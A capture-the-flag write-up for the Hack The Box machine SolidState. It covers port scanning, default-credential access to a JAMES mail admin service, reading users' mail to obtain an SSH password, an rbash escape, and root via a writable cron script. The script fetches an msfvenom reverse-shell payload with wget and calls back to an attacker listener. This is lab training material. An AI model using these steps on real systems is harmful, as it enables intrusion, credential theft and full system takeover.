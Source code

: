 # [SolidState](https://app.hackthebox.eu/machines/85)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.51 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.51 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.51
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.51
```

The TCP quick scan returns the following:

![nmap1](./solidstate/nmap1.png)

These are some interesting ports... They all seem related to some JAMES service... Start with a scan of the website:

```bash
nikto -h http://10.10.10.51/ -C all --maxtime=120s --output=nikto.txt
```

![nikto1](./solidstate/nikto1.png)

Then browse to the site manually:

```bash
firefox http://10.10.10.51/
```

![web1](./solidstate/web1.png)

Looking at the website shows that it is likely a template since it has no active content? The other services on the machine look more interesting. Try looking for exploits for this JAMES service:

```
searchsploit james
```

![ss1](./solidstate/ss1.png)

Exploit 35513 looks interesting:

- https://www.exploit-db.com/exploits/35513

The exploit connects to TCP port 4555 and requires credentials. The exploit also shows that the default credentials are `root/root`. Other than that, the exploit requires the payload to be triggered once someone logs in... Try connecting manually:

```bash
nc 10.10.10.51 4555
```

![james1](./solidstate/james1.png)

Nice! The default credentials work and there seems to be accounts on the machine already. The target version also looks like it is vulnerable with `2.3.2`. Also, looking at the help output for this admin tool shows that there is a command `setpassword`. This should allow for a custom password to be set for each user account in order to manually log in and view the mail for each user on TCP port 110 with POP3:

```bash
nc 10.10.10.51 4555 # root/root
setpassword james bubba
setpassword thomas bubba
setpassword john bubba
setpassword mindy bubba
setpassword mailadmin bubba
```

 Now try and connect over POP3 to view the emails for each account:

- https://en.wikipedia.org/wiki/Post_Office_Protocol
- https://www.atmail.com/blog/pop-101-manual-pop-sessions/

```bash
telnet 10.10.10.51 110
user james
pass bubba
stat
quit
```

![james2](./solidstate/james2.png)

Looks like james has no mail. Looking at thomas shows that his account also has no emails. Next looking john shows something worth reading:

```bash
telnet 10.10.10.51 110
user james
pass bubba
stat
retr 1
quit
```

![james3](./solidstate/james3.png)

It seems like mindy is a new employee and needs a new password given from mailadmin. Next look at mindy:

```bash
telnet 10.10.10.51 110
user mindy
pass bubba
stat
retr 1
retr 2
quit
```

Mindy has the following interesting email:

```
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

This looks like a valid login! Trying them over SSH works and gets `user.txt` and a jailed shell:

![user1](./solidstate/user1.png)

Breaking out of jailed shells is a common CTF-like problem with many helpful hints:

- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
- https://d00mfist.gitbooks.io/ctf/content/escaping_restricted_shell.html

Looking at this shell jail shows it is `rbash`:

- https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html

Looking at the shell shows the following:

- `PATH` and `SHELL` environmental variables are not writable
- `/` is not allowed in the program name
- There are no helpful programs in the `PATH` for escaping

![user2](./solidstate/user2.png)

From here, try escaping by asking SSH to run a specific command upon connecting instead of loading the default rbash shell:

```bash
ssh mindy@10.10.10.51 -t "bash --noprofile"
```

And this gives a full shell:

![user3](./solidstate/user3.png)

Looking around the system shows an interesting file `/opt/tmp.py`:

```bash
ls -la /opt
```

![user4](./solidstate/user4.png)

`tmp.py` has the following content:

```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```

This file is onwed by `root` and writable by `mindy`. Maybe this is being run as a cron job? Create a file in `/tmp` and see if it is deleted:

```bash
touch /tmp/WILL_THIS_BE_REMOVED
watch -n 0.5 ls -la /tmp
```

After waiting for a bit, the file `WILL_THIS_BE_REMOVED` is deleted! This means, adding Python to `tmp.py` _may_ run as `root`. Create a new reverse shell and transfer it to the target:

- https://www.cyberciti.biz/tips/what-is-devshm-and-its-practical-usage.html

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
cat <<END >> ./tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('/dev/shm/bubba.elf')
except:
     sys.exit()
END
sudo python3 -m http.server 80
rlwrap nc -nvlp 6969
# run on target
wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf
wget -O /opt/tmp.py 10.10.14.25/tmp.py
chmod +x /dev/shm/bubba.elf
```

After waiting for a bit, a reverse shell is returned as `root`:

![root1](./solidstate/root1.png)



